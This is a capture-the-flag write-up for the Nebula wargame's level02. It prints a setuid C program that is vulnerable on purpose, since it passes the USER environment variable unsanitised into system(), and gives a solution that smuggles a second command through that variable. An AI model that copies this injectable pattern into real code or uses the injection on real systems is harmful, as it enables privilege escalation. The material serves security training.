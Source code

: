 # Level02

There is a vulnerability in the below program that allows arbitrary programs to
be executed, can you find it?

To do this level, log in as the **level02** account with the password
**level02**. Files for this level can be found in /home/flag02.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
char *buffer;

gid_t gid;
uid_t uid;

gid = getegid();
uid = geteuid();

setresgid(gid, gid, gid);
setresuid(uid, uid, uid);

buffer = NULL;

asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);

system(buffer);
}
```

## Solution

Once again a setuid program, in this case the command string being passed to the system function call is constructed using the `USER` env var, which we control, so we can craft the USER env var value to allow us to execute the getflag binary:

```terminal
level02@nebula:/home/flag02$ env USER='; getflag;#' ./flag02
about to call system("/bin/echo ; getflag;# is cool")

You have successfully executed getflag on a target account

```

So we first terminate the echo command with a semicolon, then run our target getflag command and then comment out the "is cool" part using the `#` character for a cleaner output
